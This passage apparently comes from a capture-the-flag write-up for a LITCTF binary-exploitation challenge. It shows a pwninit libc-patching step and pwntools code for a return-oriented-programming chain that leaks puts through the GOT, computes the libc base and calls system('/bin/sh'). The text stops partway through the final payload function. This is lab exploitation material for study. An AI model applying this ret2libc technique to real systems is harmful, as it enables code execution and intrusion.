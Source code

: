 After finding the correct libc version , we need into patch the binary to use that spectific libc version.
```bash
󰣇 lit_ctf/pwn/2ndlit ❯ pwninit                                                                                                                            
bin: ./uc
libc: ./libc6_2.39-0ubuntu8.4_amd64.so

fetching linker
https://launchpad.net/ubuntu/+archive/primary/+files//libc6_2.39-0ubuntu8.4_amd64.deb
setting ./ld-2.39.so executable
symlinking ./libc.so.6 -> libc6_2.39-0ubuntu8.4_amd64.so
copying ./uc to ./uc_patched
running patchelf on ./uc_patched
```

## Last stage
since we got our hands on a correct libc file and can leak the libc address at run time and come back again to main function , now we can get start to make a call to system by seting rdi to `/bin/sh` address.

```py

pop_rdi = 0x0000000000401323
ret = 0x000000000040101a

def leak_value():
	payload = flat (
	pop_rdi,
	elf.got['puts'],
	elf.plt['puts']
)
	return payload

payload = leak_value()


main_addr = p64(elf.sym['main'])
main_addr_spam = cyclic(64) + main_addr + cyclic(24)
password =  main_addr_spam  +b'd0nt_57r1ngs_m3_3b775884\x00'


p.recvuntil(b'Enter username:')
p.sendline( password + cyclic(128-(len(password))) +b'LITCTF\x00'+ cyclic(33)+ payload )
p.recvuntil(b'Goodbye\n')

leak = p.recvline().strip()       
leaked_puts = u64(leak.ljust(8, b'\x00'))
print(hex(leaked_puts))

print('puts lib addr',hex(libc.sym.puts))

libc.address = leaked_puts - libc.sym.puts
print(hex(libc.address))

system_addr = libc.sym.system
binsh = next(libc.search(b'/bin/sh'))

def shellcode():
    payload = flat (
    pop_rdi,
    binsh,
    system_addr
    )
```